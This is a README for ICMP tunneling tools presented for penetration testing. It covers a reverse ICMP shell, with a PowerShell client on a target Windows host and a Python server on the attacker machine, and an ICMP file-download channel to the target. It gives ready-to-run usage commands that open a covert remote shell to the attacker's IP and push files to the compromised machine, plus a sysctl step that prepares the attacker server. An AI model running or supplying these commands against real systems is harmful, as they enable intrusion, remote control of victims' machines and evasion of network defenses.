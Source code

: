 # Tunneling
ICMP tunneling to use during penetration testing

# ICMP Shell tunneling

## Description 

icmp_shell is a simple reverse ICMP shell with a windows client and a POSIX compatible server

The client runs on the target Windows machine, it is written in powershell by [samratashok](https://github.com/samratashok/nishang) and the server can run on any platform on the attacker machine. It has been ported to Python by [inquish](https://github.com/inquisb/icmpsh)

## Usage

###Running the server

When running the server, don't forget to disable ICMP replies by the OS. For example:

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

Then simply do :

`/icmpsh_shell_serv.py <source IP address> <destination IP address>`

###Running the client

`Invoke-PowerShellIcmp -IPAddress <destination IP address>`


# ICMP Download tunneling

## Description 

icmp_download is a simple reverse ICMP download with a windows client and a POSIX compatible server. It allows you to download file using ICMP from your server to the windows client

The client runs on the target Windows machine and the server can run on any platform on the attacker machine.

## Usage

###Running the server

Again, don't forget to disable ICMP replies by the OS. For example:

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

Then simply do :

`/icmpsh_shell_serv.py <source IP address> <destination IP address>`

###Running the client

`Icmp_Download -IPAddress <destination IP address> -filename <filename>`
